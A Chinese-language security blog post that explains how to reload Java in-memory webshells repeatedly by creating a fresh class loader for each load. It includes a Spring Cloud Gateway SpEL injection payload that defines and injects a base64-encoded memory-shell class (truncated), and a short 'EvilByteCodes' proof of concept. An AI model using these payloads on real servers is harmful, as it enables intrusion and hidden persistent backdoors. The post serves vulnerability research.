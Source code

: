在测试中会遇到内存马加载不成功的情况，于是多次打`poc`复现问题就会报错类重复加载。

理解这很正常，`java`的双亲委派机制就是用于解决类冲突的，类加载器在收到类加载的请求之后，会优先让父类进行加载，保证某一个类在多个类加载器中是同一个。

报错内容如下
```
loader (instance of  sun/misc/Launcher$AppClassLoader): attempted  duplicate class definition for name:
```

为了规避这种情况，正常解决就是在生成内存马时随机类名。

在分析最新的springcloud spel 注入时，看到师傅提供的内存马可多次运行同类名字节码，

```
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}
```

一探究竟。

defineClass 与平时不同的是 使用了 Mlet 类加载器

```
new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())
```

平时在加载类时通常会使用当前线程的类加载器，也就是 `(java.lang.Thread).currentThread().getContextClassLoader()`

区别在于每次定义加载类 会 new 一个 classloader 对象，进行加载

查阅一番发现。

jsp 热部署就是这样实现的，每次有 jsp 文件更新，那么会重新编译和加载，新的 class 文件就是用 JsperLodaer 进行加载的。
![993781409db773eae1c6d1b1cbb155ae.png](/img/memshell/3a1b33d67004423fac610a80505dafe7)

所以在使用 defineClass 加载重复类时，new 一个新的 Classloader 实例就行了

![af17e79998d2996b21bf5baa06eab840.png](/img/memshell/04b2ecf8f12d4b8a968fda1825271cc2)

提供测试 `poc`

```
ReflectUtils.defineClass("EvilByteCodes", Base64Utils.decodeFromString(evilString),new URLClassLoader(new java.net.URL[0]))
```

参考链接：

- Spring cloud gateway通过SPEL注入内存马 https://mp.weixin.qq.com/s/S15erJhHQ4WCVfF0XxDYMg
- JSP 热部署 源码解析 https://www.jianshu.com/p/01805c2a1036